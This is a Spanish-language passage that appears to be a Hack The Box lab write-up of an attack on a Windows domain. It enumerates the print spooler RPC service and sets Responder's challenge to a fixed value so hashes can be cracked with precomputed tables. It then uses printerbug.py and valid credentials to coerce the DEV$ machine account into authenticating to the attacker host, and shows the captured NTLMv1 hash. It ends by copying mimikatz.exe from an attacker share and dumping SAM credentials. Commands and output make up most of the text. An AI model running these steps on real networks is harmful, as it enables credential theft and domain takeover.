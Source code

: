 Al listar algunos servicios con rcpdump, identificamos que está en ejecución uno bastante conocido, que es el servicio MS-RPRN asociado a spoolsv.exe. Para ajustarnos a los cracker más conocidos que utilizan tablas precomputadas, modificaremos el desafío de respuesta a 1122334455667788.

```bash
❯ impacket-rpcdump htb.local/bob:'Passw0rd1!'@dev.htb.local | grep MS-RPRN -A2  
Protocol: [MS-RPRN]: Print System Remote Protocol
Provider: spoolsv.exe
UUID    : 12345678-1234-ABCD-EF00-0123456789AB v1.0
❯ grep Challenge /etc/responder/Responder.conf  
Challenge = 1122334455667788
```

Ahora, utilizando el comando "responder", nos ponemos en escucha de tráfico, especificando la interfaz tun0 y utilizando el parámetro --lm para forzar el downgrade hacia versiones antiguas. Utilizaremos pringerbug con las credenciales que tenemos previamente verificadas como válidas en el dominio para realizar una solicitud a nuestro host a través de RPC.

```bash
❯ sudo responder -I tun0 --lm
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|  
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

[+] Listening for events...
```

```bash
❯ python3 printerbug.py htb.local/bob:'Passw0rd1!'@dev.htb.local 10.10.14.10
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attempting to trigger authentication via rprn RPC at dev.htb.local
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.  
[*] Triggered RPC backconnect, this may or may not have worked
```

Regresamos a escuchar con "responder" y notamos que el equipo DEV$ ha realizado una autenticación hacia nuestro host, y hemos recibido su hash en el formato NTLMv1.

```bash
❯ sudo responder -I tun0 --lm
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

[+] Listening for events...

[SMB] NTLMv1 Client   : 10.13.38.17
[SMB] NTLMv1 Username : HTB\DEV$
[SMB] NTLMv1 Hash     : DEV$::HTB:A7509E055B9C053829A4802EA4DB0F1A9622805EF63409D5:A7509E055B9C053829A4802EA4DB0F1A9622805EF63409D5:1122334455667788  
```


[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>